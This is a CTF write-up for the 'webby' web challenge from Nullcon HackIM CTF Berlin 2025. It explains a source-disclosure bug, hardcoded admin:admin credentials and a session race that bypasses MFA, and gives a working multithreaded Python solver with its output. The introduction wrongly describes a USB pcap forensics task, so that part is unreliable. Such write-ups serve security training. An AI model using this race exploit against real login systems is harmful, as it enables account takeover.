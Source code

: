 ## webby - Nullcon HackIM CTF Berlin 2025 Write-up

![Banner](assets/img/banner.png)

**Challenge:** webby
**Category:** Web
**Points:** 203
**Author:** minouse3

### Introduction
This challenge was a small forensic puzzle involving USB traffic. The story was that a private file had been copied to a USB drive and then deleted, but somehow it could still be recovered from the USB messages that were recorded. We were given a packet capture file, [`usbstorage.pcapng.gz`](assets/files/usbstorage.pcapng.gz), and our goal was to dig through it and recover the lost flag.

### Analyzing the website
When you visit /?source=anything, the app happily returns its own source. That happens in index.GET: it parses query params with i = web.input() and, if i.source exists (any non-empty value), it executes return open(__file__).read(). There’s no path traversal or file choice—__file__ is just “this script”, so you get a straight source disclosure.
```py
class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = login_Form()
        return render.index(f)
```

The leak reveals the routes, file-backed sessions, and the exact flag check. Sessions are persisted in a shelf at /tmp/session.shelf, which means intermediate writes are immediately visible across requests. The flag handler only trusts two keys—loggedIn and username—and does not independently verify MFA status.
```py
session = web.session.Session(app, web.session.ShelfStore(shelve.open("/tmp/session.shelf")))
FLAG = open("/tmp/flag.txt").read()

class flag:
    def GET(self):
        if not session.get("loggedIn", False) or not session.get("username", None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)
```

Credentials and MFA policy are hardcoded. The app explicitly allows admin:admin, and only admin is subject to MFA; the other users bypass MFA entirely.
```py
def check_user_creds(user,pw):
    users = {
        # Add more users if needed
        'user1': 'user1',
        'user2': 'user2',
        'user3': 'user3',
        'user4': 'user4',
        'admin': 'admin',

    }
    try:
        return users[user] == pw
    except:
        return False

def check_mfa(user):
    users = {
        'user1': False,
        'user2': False,
        'user3': False,
        'user4': False,
        'admin': True,
    }
    try:
        return users[user]
    except:
        return False
```

The vulnerability is in the login flow: after validating credentials, the code first writes loggedIn=True and username=<user> to the session and forces a save; only then, for MFA users, it performs a slow bcrypt-based token generation and later flips loggedIn=False and saves again. During the expensive hashing, the session on disk already says “admin is logged in,” which /flag accepts.
```py
 def POST(self):
        f = login_Form()
        if not f.validates():
            session.kill()
            return render.index(f)
        i = web.input()
        if not check_user_creds(i.username, i.password):
            session.kill()
            raise web.seeother('/')
        else:
            session.loggedIn = True
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False
            session._save()
            raise web.seeother("/mfa")
        return render.login(session.get("username",None))
```

### How to exploit it
The exploitation flow in practice is simple. First, obtain one session cookie by doing a plain GET to /; that sets webpy_session_id and creates the corresponding shelf entry on disk. Keep this exact cookie for all subsequent requests. Next, start a bunch of concurrent requests to /flag using that cookie and do not follow redirects, so each request returns quickly and can be retried fast. Finally, in the same cookie context, submit a login as admin with the password admin—those credentials are explicitly accepted by the challenge’s check_user_creds function. The moment the login handler persists loggedIn=True and username="admin" and then begins the bcrypt work for the MFA token, your background /flag requests will see a valid session and one of them will return the flag page with HTTP 200. If the race misses, simply rerun or increase the number of worker threads; the bcrypt cost factor provides a comfortable window, so it usually succeeds almost immediately. The critical operational details are to reuse the exact same cookie throughout, to avoid letting redirects allocate a new session, and to keep requests tight and parallel so one lands during the hashing window.

```py
import requests, threading, re

BASE = "http://52.59.124.14:5010"

# 1) Get a session cookie
bootstrap = requests.Session()
r = bootstrap.get(f"{BASE}/", allow_redirects=False)
sid = bootstrap.cookies.get("webpy_session_id")
assert sid, "No session cookie set"
cookies = {"webpy_session_id": sid}

stop = threading.Event()
flag_html = {"data": None}

def hit_flag():
    while not stop.is_set():
        try:
            r = requests.get(f"{BASE}/flag",
                             cookies=cookies,
                             allow_redirects=False,
                             timeout=1)
            if r.status_code == 200 and "ENO{" in r.text:
                flag_html["data"] = r.text
                stop.set()
                return
        except Exception:
            pass

# 2) Start multiple threads hammering /flag with the SAME cookie
threads = [threading.Thread(target=hit_flag, daemon=True) for _ in range(16)]
for t in threads: t.start()

# 3) Trigger the race: login as admin (admin/admin)
data = {"username": "admin", "password": "admin", "submit": "Login"}
# IMPORTANT: don’t follow redirects (keep it snappy)
bootstrap.post(f"{BASE}/", data=data, allow_redirects=False)

# 4) Collect result
for t in threads: t.join(timeout=2.5)

if flag_html["data"]:
    m = re.search(r'ENO\{[^}]+\}', flag_html["data"])
    print("FLAG:", m.group(0) if m else "Flag printed but couldn’t parse. See full HTML above.")
else:
    print("Missed the race. Re-run (or bump thread count).")
```

```bash
bash
┌──(minouse3㉿kali)-[~] 
└─$ python3 solver.py 
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```

### Flag
```
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```